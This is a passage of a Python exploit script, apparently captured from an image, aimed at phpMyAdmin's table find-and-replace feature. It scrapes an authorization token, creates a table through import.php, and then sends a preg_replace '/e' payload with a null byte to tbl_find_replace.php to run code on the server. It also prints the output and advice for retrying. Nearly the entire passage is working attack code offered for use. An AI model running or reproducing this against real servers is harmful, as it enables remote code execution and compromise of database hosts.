```python
    ))
    if resp.status_code is 200:
        token_place = resp.text.find("token=") + 6
        token = resp.text[token_place:token_place + 32]
    if token is False:
        print("Cannot get valid authorization token.")
        sys.exit(1)

    if custom_table is False:
        data = {
            "is_js_confirmed": "0",
            "db": db,
            "token": token,
            "pos": "0",
            "sql_query": sql,
            "sql_delimiter": ";",
            "show_query": "0",
            "fk_checks": "0",
            "SQL": "Go",
            "ajax_request": "true",
            "ajax_page_request": "true",
        }
        resp = s.post(url_to_pma + "/import.php", data, cookies=requests.utils.dict_from_cookiejar(s.cookies))
        if resp.status_code == 200:
            if "success" in resp.json():
                if resp.json()["success"] is False:
                    first = resp.json()["error"][resp.json()["error"].find("<code>")+6:]
                    error = first[:first.find("</code>")]
                    if "already exists" in error:
                        print(error)
                    else:
                        print("ERROR: " + error)
                        sys.exit(1)
    # build exploit
    exploit = {
        "db": db,
        "table": table,
        "token": token,
        "goto": "sql.php",
        "find": "0/e\0",
        "replaceWith": payload,
        "columnIndex": "0",
        "useRegex": "on",
        "submit": "Go",
        "ajax_request": "true"
    }
    resp = s.post(
        url_to_pma + "/tbl_find_replace.php", exploit, cookies=requests.utils.dict_from_cookiejar(s.cookies)
    )
    if resp.status_code == 200:
        result = resp.json()["message"][resp.json()["message"].find("</a>")+8:]
        if len(result):
            print("result: " + result)
            sys.exit(0)
        print(
            "Exploit failed!\n"
            "Try to manually set exploit parameters like --table, --database and --token.\n"
            "Remember that servers with PHP version greater than 5.4.6"
            " is not exploitable, because of warning about null byte in regexp"
        )
        sys.exit(1)
```